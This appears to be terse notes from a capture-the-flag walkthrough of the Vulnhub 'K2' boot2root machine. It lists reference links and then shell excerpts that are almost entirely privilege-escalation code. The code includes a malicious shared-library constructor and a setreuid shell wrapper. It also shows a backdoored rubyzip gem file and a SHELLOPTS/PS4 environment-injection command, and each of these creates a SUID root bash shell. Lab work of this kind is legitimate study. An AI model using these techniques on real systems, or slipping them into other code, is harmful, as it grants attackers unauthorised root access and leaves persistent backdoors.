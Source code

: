 https://www.hackingarticles.in/hack-the-dev-random-k2-vm-boot2root-challenge/
https://www.boiteaklou.fr/Abusing-Shared-Libraries.html
https://unix.stackexchange.com/posts/108269/revisions
http://devloop.users.sourceforge.net/index.php?article154/solution-du-ctf-dev-random-k2-de-vulnhub
https://www.youtube.com/watch?v=9B1C_xi_yic

bash-4.2$ cat /home/user/libcalc.c 
#include <stdio.h>
#include <stdlib.h>

static void x() __attribute__ ((constructor));

void x() {
system("cp /bin/bash /tmp/bash1 && chmod 4755 /tmp/bash1 && /tmp/bash1 -p");
}

bash-4.2$  cat /tmp/bash3.c 

void main() {
        setreuid(geteuid(), getuid());
        setregid(getegid(), getgid());
        system("/bin/bash");
}



bash-4.2$ vi /etc/crontab 

SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
MAILTO=root
HOME=/

# For details see man 4 crontabs

* * * * * user3 /sbin/bckup
^[[3A


[root@localhost var]# cat /usr/local/share/gems/gems/rubyzip-1.2.1/lib/zip.rb
`cp /bin/bash /tmp/bash2 && chmod +s /tmp/bash2`



bash-4.2$ env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/bash5 && chown root.root /tmp/bash5 && chmod 4755 /tmp/bash5)' /bin/sh -c '/usr/local/bin/whoisme'